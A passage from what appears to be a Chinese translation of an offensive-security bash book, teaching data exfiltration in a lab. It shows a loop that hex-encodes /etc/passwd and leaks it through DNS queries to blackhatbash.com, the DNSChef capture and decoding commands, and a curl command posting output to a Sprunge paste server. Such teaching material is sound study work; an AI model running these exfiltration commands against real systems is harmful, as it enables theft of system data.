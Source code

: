 ```
$ **for i in $(xxd -p -c 30 /etc/passwd); do dig $i.blackhatbash.com @172.16.10.1; done**
```

Listing 12-29: 通过 DNS 提取文件内容

我们在 xxd -p -c 30 /etc/passwd 的输出上运行一个 for 循环，这将把 ASCII 转换为十六进制。然后我们运行 dig 命令对整个域名进行查询，包括新生成的十六进制子域名。我们使用 @172.16.10.1 告诉 dig 使用哪个 DNS 服务器进行 DNS 解析，提供运行 DNSChef 的 Kali IP 地址。

命令执行后，你应该能在 DNSChef 中看到类似以下的输出：

```
23:51:22) [*] DNSChef started on interface: 0.0.0.0
`--snip--`
(23:51:22) [*] Cooking A replies to point to 127.0.0.1 matching: blackhatbash.com
(23:51:22) [*] DNSChef is active.
(23:52:08) [*] 172.16.10.13: cooking the response of type 'A'
for 726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173.blackhatbash.com to 127.0.0.1
(23:52:08) [*] 172.16.10.13: cooking the response of type 'A'
for 680a6461656d6f6e3a783a313a313a6461656d6f6e3a2f7573722f736269.blackhatbash.com to 127.0.0.1
(23:52:08) [*] 172.16.10.13: cooking the response of type 'A'
for 6e3a2f7573722f7362696e2f6e6f6c6f67696e0a62696e3a783a323a323a.blackhatbash.com to 127.0.0.1
`--snip--` 
```

循环针对每个 ASCII 到十六进制的转换发出了一个 DNS 查询，使用数据作为 *blackhatbash.com* 的子域。从输出中选择任何一行，并将其传递给 xxd，将其从十六进制转换：

```
$ **echo 726f6f743a783a303a303a726f6f743a2f726f6f74.blackhatbash.com | xxd -r -p**

root:x:0:0:root:/root:/bin/bash 
```

要一次性转换所有子域名，你可以使用一些 sed 和 awk 技巧（Listing 12-30）。

```
$ **sed -n 's/.*for \(.*\) to .*/\1/p' dnschef.log  | awk -F'.' '{print $1}' | xxd -r -p**
```

Listing 12-30: 解析和转换查询的子域以重建泄漏的数据

我们使用 sed -n（安静模式）和正则表达式模式来提取 DNSChef 输出中位于 "for" 和 "to" 之间的文本，这样我们就可以获得完整的域名。接着，我们使用 awk 过滤出子域名部分，并将其传递给 xxd -r -p，将其转换为 ASCII。

### 文本存储网站

文本存储网站，如流行的 *[`pastebin.com`](https://pastebin.com)*，是另一种从网络中提取数据的方式。让我们练习使用 Sprunge，这是一个开源项目，托管在 *[`github.com/rupa/sprunge`](https://github.com/rupa/sprunge)* 上。你可以克隆该仓库并将其托管在服务器上，或使用托管在 *[`sprunge.us`](https://sprunge.us)* 在线服务上的应用程序。

要发布到 Sprunge，请使用以下语法：

```
`some-command` | curl -F 'sprunge=<-' http:`//my-custom-sprunge-server.local`
```

我们通过管道将命令传递给 curl，使用表单数据（-F）发出 POST 请求。sprunge=<-语法基本上是将标准输入分配给 sprunge 字段。在这种情况下，标准输入将包括管道传递的命令。

如列表 12-31 所示，命令应该输出包含已发布内容的短 URL。
